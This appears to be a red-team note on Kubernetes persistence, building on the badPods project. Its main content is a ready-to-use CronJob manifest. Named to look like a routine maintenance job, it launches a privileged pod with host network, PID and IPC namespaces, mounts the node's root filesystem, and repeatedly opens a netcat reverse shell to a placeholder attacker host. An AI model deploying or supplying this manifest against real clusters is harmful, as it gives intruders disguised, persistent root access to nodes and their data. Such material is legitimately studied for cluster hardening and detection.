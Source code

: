# Kubernetes - Persistence 

> Core idea is coming from [BishopFox/badPods](https://github.com/BishopFox/badPods/) and is a collection of manifests that create pods with different elevated privileges. Quickly demonstrate the impact of allowing security sensitive pod attributes like hostNetwork, hostPID, hostPath, hostIPC, and privileged.


<img height="100" src="https://github.com/BishopFox/badPods/raw/main/.github/images/Title.jpg"></img>

An enhanced variant that was battle tested:
```yaml
apiVersion: batch/v1
kind: CronJob
metadata:
  name: maintenance-service-dailyjob
  namespace: mayhem
  labels:
    app: maintenance-service
spec:
  schedule: "*/1 * * * *"
  concurrencyPolicy: Forbid
  jobTemplate:
    spec:
      template:
        spec:
          hostNetwork: true
          hostPID: true
          hostIPC: true
          containers:
          - name: maintenance-service-dailyjob
            image: nginx:alpine
            command: ["/bin/sh", "-c", "-"]
            args: ["while true; do nc <ATTACKER HOST> <ATTACKER PORT> -e /bin/sh | sleep 10; done"]
            securityContext:
              privileged: true
            volumeMounts:
            - mountPath: /host
              name: noderoot
          volumes:
          - name: noderoot
            hostPath:
              path: /
          restartPolicy: OnFailure
```
